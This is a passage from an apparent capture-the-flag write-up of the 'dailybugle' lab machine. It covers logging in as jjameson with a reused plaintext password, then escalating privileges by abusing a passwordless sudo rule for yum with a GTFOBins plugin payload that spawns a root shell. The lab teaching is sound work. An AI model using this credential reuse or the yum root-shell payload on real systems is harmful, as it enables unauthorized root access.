 Maybe jjameson use the same pass for system (and maybe ssh too...)

`jjameson : nv5uz9r3ZEDzVjNu`

```
su jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle html]$
```

now we are good
`cat user.txt`

## Privilege Escalation

further privileges are required...let's evolve again

```
sudo -l
Matching Defaults entries for jjameson on dailybugle:
!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
(ALL) NOPASSWD: /usr/bin/yum
```

Ah yes..the description said something about yum..let's ask gtfobins real quick

He said this:

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
